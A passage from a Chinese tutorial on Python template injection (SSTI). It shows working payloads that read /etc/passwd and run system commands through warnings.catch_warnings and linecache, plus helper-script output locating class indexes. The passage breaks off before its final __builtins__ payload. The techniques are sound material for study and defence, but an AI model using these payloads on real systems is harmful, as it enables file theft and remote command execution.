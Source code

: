 然后直接调用里面的方法即可，payload如下

读文件

```go
{{().__class__.__bases__[0].__subclasses__()[40]('/etc/passwd').read()}}



 



{{().__class__.__bases__[0].__subclasses__()[40]('/etc/passwd').readlines()}}
```

- `warnings`类中的`linecache`

本方法只能用于python2，因为在python3中会报错`'function object' has no attribute 'func_globals'`，猜测应该是python3中`func_globals`被移除了还是啥的，如果不对请师傅们指出

我们把上面的`find.py`脚本中的search变量赋值为`linecache`，去寻找含有`linecache`的类

```go
λ python find.py



(<class 'warnings.WarningMessage'>, 59)



(<class 'warnings.catch_warnings'>, 60)
```

后面如法炮制，payload如下

```go
{{[].__class__.__base__.__subclasses__()[60].__init__.func_globals['linecache'].os.popen('whoami').read()}}
```

#### python2&3的方法

这里介绍python2和python3两个版本通用的方法

- `__builtins__`代码执行

这种方法是比较常用的，因为他两种python版本都适用

首先`__builtins__`是一个包含了大量内置函数的一个模块，我们平时用python的时候之所以可以直接使用一些函数比如`abs`，`max`，就是因为`__builtins__`这类模块在Python启动时为我们导入了，可以使用`dir(__builtins__)`来查看调用方法的列表，然后可以发现`__builtins__`下有`eval`，`__import__`等的函数，因此可以利用此来执行命令。

把上面`find.py`脚本search变量赋值为`__builtins__`，然后找到第140个类`warnings.catch_warnings`含有他，而且这里的话比较多的类都含有`__builtins__`，比如常用的还有`email.header._ValueFormatter`等等，这也可能是为什么这种方法比较多人用的原因之一吧

再调用`eval`等函数和方法即可，payload如下
